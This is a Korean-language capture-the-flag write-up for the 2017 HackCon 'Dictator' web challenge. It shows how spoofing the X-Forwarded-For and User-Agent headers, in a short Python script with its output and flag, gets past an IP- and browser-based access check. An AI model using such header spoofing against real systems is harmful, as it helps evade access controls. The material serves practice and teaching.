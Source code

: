 # 2017 HackCon - [WEB] Dictator

## Key words

- X-Forwarded-For
- Guessing (Recon)

## Solution

문제에 접속하면 `Access Denied` 만 뜨고 별다른 정보가 없습니다. 

문제 명세를 다시 보면 다음과 같습니다.

```
Dictator 75

A dictator is creating a lot of fuss nowadays by claiming to have nuclear weapons. I somehow got access to his personal website that he uses to send instructions, but I cannot get in. Can you try?

Hint: you need to be living in that country to get access.
Hint2: north korea
```

힌트를 보면 서버에서 판단 했을 때, 접근한 아이피의 주소가 북한으로 나와야 할 것 같습니다. 따라서 요청 해더에 `X-Forward-For`를 이용합니다. 이 해더 필드는 `HTTP Proxy`나 로드 벨런서를 통해 웹 서버로 접속한 클라이언트의 아이피를 식별하기 위해 사용됩니다.

먼저 구글링을 통해 북한의 아이피가 `175.145.176.0 - 175.45.179.255` 대역임을 알았습니다. 이를 `X-Forwared-For` 해더에 넣어 요청을 합니다.

그러면 다음과 같은 응답이 옵니다.

```
You are not following the instructions given by the supreme-leader
```

그 이후론 완전 게싱인데 다른 라이트업을 통해 `User-Agent`를 북한에서 사용하는 웹 브라우저 이름으로 넣어야 하는 것을 알았습니다. (https://github.com/chmodxxx/HackConCTF_2017)

이 역시 구글링을 통해 알 수 있습니다. [Googling](https://www.whitehatsec.com/blog/north-koreas-naenara-web-browser-its-weirder-than-we-thought/)

`User-Agrnt`까지 내나라로 맞춰 보내면 플래그를 획득하게 됩니다.

## Solution Code

```python
import requests

url = "http://defcon.org.in:6063/index.php"

# north korea ip range : 175.145.176.0 - 175.45.179.255

headers = {
    "X-Forwarded-For": "175.45.176.0"
}

r = requests.get(url, headers=headers)

print r.headers
print r.content

'''
{'host': 'defcon.org.in:6063', 'content-type': 'text/html; charset=UTF-8', 'connection': 'close', 'x-powered-by': 'PHP/7.0.22-0ubuntu0.16.04.1'}
You are not following the instructions given by the supreme-leader
'''

# https://www.whitehatsec.com/blog/north-koreas-naenara-web-browser-its-weirder-than-we-thought/

headers = {
    "X-Forwarded-For": "175.45.176.0",
   "User-Agent": "Mozilla/5.0 (X11; U; Linux i686; ko-KP; rv: 19.1br) Gecko/20130508 Fedora/1.9.1-2.5.rs3.0 NaenaraBrowser/3.5b4"
}

r = requests.get(url, headers=headers)

print r.headers
print r.content
```

## Result

```
{'host': 'defcon.org.in:6063', 'content-type': 'text/html; charset=UTF-8', 'connection': 'close', 'x-powered-by': 'PHP/7.0.22-0ubuntu0.16.04.1'}
You are not following the instructions given by the supreme-leader
{'host': 'defcon.org.in:6063', 'content-type': 'text/html; charset=UTF-8', 'connection': 'close', 'x-powered-by': 'PHP/7.0.22-0ubuntu0.16.04.1'}
d4rk{Welcome_To_DictatorRuling.TogetherweshalltkeWorld}c0de
```
